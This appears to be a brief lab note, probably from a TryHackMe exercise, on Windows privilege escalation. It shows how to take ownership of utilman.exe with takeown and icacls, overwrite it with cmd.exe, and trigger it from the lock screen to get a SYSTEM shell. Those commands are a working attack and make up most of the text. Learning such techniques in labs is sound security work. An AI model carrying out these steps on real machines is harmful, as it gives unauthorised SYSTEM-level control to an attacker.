 Attacker can gain `SYSTEM` privileges if he replaces the binary that is run with `SYSTEM` privileges like `utilman.exe`.

Take ownership of `utilman.exe`:
```bat
takeown /f C:\Windows\System32\utilman.exe
```

Take full permissions over targeted executable:
```bat
icacls C:\Windows\System32\utilman.exe /grant THMTakeOwnership:F
```

Replace `utilman.exe` with a copy of `cmd.exe`:
```bat
copy cmd.exe utilman.exe
```

|![](Images/image.png)|
|:--:| 
| *To trigger utilman, lock screen from the start button and ...* |